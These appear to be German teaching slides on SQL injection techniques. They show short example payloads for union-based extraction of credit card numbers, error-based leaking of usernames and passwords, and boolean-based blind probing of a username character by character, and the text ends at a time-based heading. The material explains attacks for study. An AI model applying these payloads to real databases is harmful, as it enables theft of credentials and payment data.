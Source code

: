 * Spaltenanzahl erraten

## Union-Based SQLi: Ergebnis:

``` sql
SELECT Name, Phone, Address FROM Users WHERE Id=1
UNION ALL
SELECT creditCardNumber,1,1 FROM CreditCardTable
```

## Error-based SQLi

Eine Datenbank-Fehlermeldung wird als Rückkanal verwendet

``` sql
# normal
select * from table where id = 1

# angriff
select * from table where id = (select username, password from users);

# fehlermeldung:
Cannot compare id (integer) with ["root", "password"]
```

## Beispiel: Boolean-based blind SQLi

* URL: http://snikt.net/show_user?id=1
* Annahmen:
  * Query: select * from users where id = 1;
  * id besitzt Injection-Lücke
  * Aber kein Ausgabekanal in der Seite

## Code kann angehängt werden..

``` sql
# id: "1 and 1=1" -> user wird angezeigt
select * from users where id=1 and 1=1;

# id: "1 and 1=0" -> Kein Produkt wird angezeigt
select * from users where id=1 and 1=0;
```

## Beispiel: Auslesen der ersten Stelle eines Benutzernamens

``` sql
SELECT *
FROM Users
WHERE Id=1 AND ASCII(SUBSTRING(username,1,1))=97
```

## Bespiel: time-based blind SQLi
